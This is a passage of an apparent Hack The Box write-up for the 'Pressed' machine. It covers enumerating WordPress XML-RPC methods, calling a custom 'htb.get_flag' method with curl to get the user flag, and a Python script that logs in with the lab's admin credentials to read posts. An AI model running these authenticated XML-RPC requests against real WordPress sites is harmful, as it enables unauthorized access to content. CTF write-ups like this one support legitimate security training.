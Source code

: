 ```bash
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
```

There's an weird list : `htb.get_flag`

Let's use this command.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST http://pressed.htb/xmlrpc.php \
     -H "Content-Type: application/xml" \
     -d '<?xml version="1.0"?>
<methodCall>
  <methodName>htb.get_flag</methodName>
  <params>
  </params>
</methodCall>'
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <string>52f6801b91c1a1876881439d9c19f84d
</string>
      </value>
    </param>
  </params>
</methodResponse>
```

This is the user flag.
Let's try other commands.
By the way, I think there must be python library. I googled, and found the following;
https://python-wordpress-xmlrpc.readthedocs.io/en/latest/examples.html
I think I can easily send XML request in wordpress-xmlrpc convention with this library.

Refering to the document, I built a code to read post.
I think `wp.getPosts` can make it possible.

```python
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat get_posts.py
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods import posts

url = "http://pressed.htb/xmlrpc.php"
username = "admin"
password = "uhc-jan-finals-2022"

client = Client(url, username, password)

plist = client.call(posts.GetPosts())

for i, post in enumerate(plist):
    print(f"Post {i + 1} Attributes:")
    for attr in dir(post):
        if not attr.startswith("_"):
            try:
                value = getattr(post, attr)
                print(f"  {attr}: {value}")
            except Exception as e:
                print(f"  {attr}: <error accessing attribute> ({e})")
    print("=" * 40)
```
